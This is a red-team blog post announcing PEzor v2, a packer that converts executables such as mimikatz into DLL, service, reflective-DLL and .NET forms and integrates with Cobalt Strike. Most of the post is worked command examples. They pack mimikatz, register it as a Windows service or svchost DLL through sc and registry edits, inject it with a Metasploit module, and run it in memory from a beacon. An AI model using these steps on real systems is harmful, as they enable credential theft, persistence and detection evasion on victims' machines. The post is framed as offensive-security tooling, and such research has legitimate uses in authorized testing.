

_**Oct 26, 2020**_

# Announcing PEzor v2 — New Output Formats and Cobalt Strike Integration

The `execute-assembly` capability of [Cobalt Strike](https://www.cobaltstrike.com/)'s beacon lets operators execute .NET assemblies without touching the disk and it's deeply influencing the recent offensive developments by pushing the community to move towards .NET and C#. But wouldn't be nice if we could [execute arbitary executables](https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html) with the same ease? Let's find out how we can achieve that with [PEzor](https://iwantmore.pizza/posts/PEzor.html)!



## The Idea

[Cobalt Strike](https://www.cobaltstrike.com/) supports two techniques to execute in-memory post-ex capabilities:

1. [bdllspawn](https://www.cobaltstrike.com/aggressor-script/functions.html#bdllspawn): this function orders the beacon implant to retrieve a [reflective DLL](https://www.exploit-db.com/docs/english/13007-reflective-dll-injection.pdf) from the C2 server, create a sacrificial process, inject the payload in its memory and creating a thread to execute the exported function `ReflectiveLoader`, responsible of manually mapping the foreign DLL into target process without requiring the OS loader. In order to produce a reflective DLL from a regular one, we need to update its source code to integrate [Stephen Fewer's library](https://github.com/stephenfewer/ReflectiveDLLInjection) and compile it.
2. [bexecute_assembly](https://www.cobaltstrike.com/aggressor-script/functions.html#bexecute_assembly): this function orders the beacon implant to retrieve a .NET assembly from the C2 server, create a sacrificial process, inject a CLR hosting reflective DLL that will bootstrap the .NET runtime and pass the provided assembly to it. This technique doesn't require modification to the original source code since it can execute .NET PEs out of the box and for this reason it has been quite popular. However, we are limited to execute .NET assembly, so any native binary is a no-go if we don't want to touch the disk.

After some research, I had the idea to improve [PEzor](https://iwantmore.pizza/posts/PEzor.html) in order to be able to produce different output formats than regular PE executables: if we can automate the process of converting an existing EXE/DLL/etc to other formats such as DLLs, reflective DLLs and .NET assemblies while maintaining the original semantic intact, we could implement a new command in [Cobalt Strike](https://www.cobaltstrike.com/) that can convert on the fly arbitrary executables and task the beacon to execute it in-memory.

## New Output Formats

Currently, PEzor supports the following output formats, given an arbitrary executable or raw shellcode:

- **exe**: this is the only format that was supported by PEzor v1, that is a native binary
- **dll**: PEzor can now convert existing executables to their DLL counterpart, without requiring to recompile from the sources
- **service-exe**: it can produce a Service EXE version of the native binary, that exports required functions to be run as a system service
- **service-dll**: it can produce a Service DLL version of the native binary, that exports required functions to be run inside a `dllhost` process
- **reflective-dll**: it can produce a reflective DLL version of the native binary, that can be loaded and executed in-memory by most of the frameworks, such as [Metasploit's reflective_dll_inject](https://github.com/rapid7/metasploit-framework/blob/master//modules/post/windows/manage/reflective_dll_inject.rb) module
- **dotnet**: it can produce a .NET binary equivalent to the native one, that can be loaded and executed in-memory by most of the frameworks, such as [Metasploit's execute_dotnet_assembly](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/manage/execute_dotnet_assembly.rb) module

## Examples

Let's see how we can generate and execute the new formats.

- **exe**
```
# generate
$ PEzor -format=exe mimikatz.exe -z 2 -p '"token::whoami" "exit"'

# execute
C:> .\mimikatz.exe.packed.exe
```

- **dll**
```
# generate
$ PEzor -format=dll mimikatz.exe -z 2 -p '"token::whoami" "exit"'

# execute
C:> rundll32 .\mimikatz.exe.packed.dll,DllMain
```

- **service-exe**  
```
# generate
$ PEzor -format=service-exe mimikatz.exe -z 2 -p '"log C:/Users/Public/mimi.out" "coffee" "exit"'

# execute
C:\Users\Public> sc create mimiservice binpath= C:\Users\Public\mimikatz.exe.packed.service.exe
[SC] CreateService SUCCESS

C:\Users\Public> sc start mimiservice
SERVICE_NAME       : mimiservice
        TYPE               : 20  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 913
        FLAGS              : 0x0
```

- **service-dll**
```
# generate
$ PEzor -format=service-dll mimikatz.exe -z 2 -p '"log C:/Users/Public/mimi.out" "coffee" "exit"'

# execute
C:\Users\Public> copy /y mimikatz.packed.exe.service.dll %SystemRoot%\System32\SvcHostDemo.dll
        1 file(s) copied.

C:\Users\Public> sc create SvcHostDemo binpath= ^%SystemRoot^%"\System32\svchost -k mygroup" type= share start= demand
[SC] CreateService SUCCESS

C:\Users\Public> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SvcHost" /v mygroup /t REG_MULTI_SZ /d SvcHostDemo /f
The operation completed successfully.

C:\Users\Public> sc start SvcHostDemo
SERVICE_NAME       : SvcHostDemo
        TYPE               : 30  WIN32
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1823
        FLAGS              : 0x0
```

- **reflective-dll**
```
# generate
$ PEzor -format=reflective-dll mimikatz.exe -z 2 -p '"coffee" "exit"'

# execute
msf5 > use post/windows/manage/reflective_dll_inject
msf5 post(windows/manage/reflective_dll_inject) > set PATH mimikatz.exe.packed.reflective.dll
msf5 post(windows/manage/reflective_dll_inject) > set WAIT 10
msf5 post(windows/manage/reflective_dll_inject) > run
```

## Cobalt Strike Integration

Now we know how to generate different outputs and manually execute them, but how can we integrate this new tool within Cobalt Strike? To have a smooth _OX_ (operator experience), I wrote an [aggressor script](https://www.cobaltstrike.com/aggressor-script/index.html) that provide a transparent command similar to `execute-assembly` that can be invoked with the same command line options of PEzor: the script will automatically launch in background PEzor to convert the provided executable to the desired format (reflective-dll and dotnet) and task the beacon to inject the reflective DLL or execute in-memory the generated .NET assembly. The script can be found [here](https://github.com/phra/PEzor/blob/master/aggressor/PEzor.cna).

```
# convert and execute reflective DLL
beacon> execute-inmemory -format=reflective-dll mimikatz.exe -z 2 -p '"coffee" "exit"'

# convert and execute .NET assembly
beacon> execute-inmemory -format=dotnet mimikatz.exe -z 2 -p '"coffee" "exit"'
```

[back](../)
